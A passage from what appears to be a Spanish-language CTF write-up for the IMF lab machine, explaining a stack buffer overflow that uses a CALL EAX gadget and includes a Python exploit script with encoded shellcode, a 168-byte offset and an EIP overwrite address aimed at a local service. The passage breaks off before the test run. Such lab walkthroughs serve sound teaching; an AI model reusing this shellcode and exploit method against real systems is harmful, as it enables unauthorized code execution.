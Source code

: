Lo que sucede con esta dirección, es que existe el *lsr* , y por ende la aleatorización, esto va a cambiar constantemente. Por esto mismo buscamos en otro registro para saber cuando empieza la letra *A*
![eax](https://helhat.github.io/assets/img/IMF/eax.png){: .normal }

El registro EAX apunta exactamente al comienzo de nuestro código shell.
Entonces ahora, realizaremos un call eax, para llamar al registro eax y así se ejecute nuestro shellcode malicioso. 

El siguiente paso es encontrar el código de operación "JMP EAX" o "CALL EAX" , observar la dirección de memoria y usar esa dirección para sobrescribir EIP.
![nasm](https://helhat.github.io/assets/img/IMF/nasm.png){: .normal }
![obj](https://helhat.github.io/assets/img/IMF/obj.png){: .normal }

Creamos nuestro shellcode, con los principales badchars. Posteriormente nos preparamos para el ataque con un script en python.
![shell](https://helhat.github.io/assets/img/IMF/shell.png){: .normal }

1. Principales badchars, que pueden impedir que nuestro shellcode se interprete de la manera correcta.
- Adicionalmente vemos que la cantidad de bytes es 95 del shellcode, es decir faltaría 73 bytes para llenar el buffer y después sobreescribir el EIP, para que apunte al EAX, donde ira nuestro payload malicioso.

Por ello para el script colocamos el shellcode en bytes.
```python
#!/usr/bin/python
from struct import pack
import socket

shellcode = (b"\xd9\xc5\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x12\xbd\x14\x8f"
b"\x3f\x9c\x83\xc3\x04\x31\x6b\x13\x03\x7f\x9c\xdd\x69\x4e"
b"\x79\xd6\x71\xe3\x3e\x4a\x1c\x01\x48\x8d\x50\x63\x87\xce"
b"\x02\x32\xa7\xf0\xe9\x44\x8e\x77\x0b\x2c\xd1\x20\xc6\x27"
b"\xb9\x32\x19\x33\xe8\xba\xf8\x8b\x6a\xed\xab\xb8\xc1\x0e"
b"\xc5\xdf\xeb\x91\x87\x77\x9a\xbe\x54\xef\x0a\xee\xb5\x8d"
b"\xa3\x79\x2a\x03\x67\xf3\x4c\x13\x8c\xce\x0f")

offset = 168

# Se agrega en bytes ciertos A , dependiendo de los que bytes que falta para llenar el buffer antes de reeplazar el EIP, y luego se agrega la direccion del EAX.
payload = shellcode + b"A" * (offset-len(shellcode)) + pack("<I",0x8048563)
#Entablamos conexion
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1",7788))

data=s.recv(1024)

print(data)

```
Realizaremos una prueba
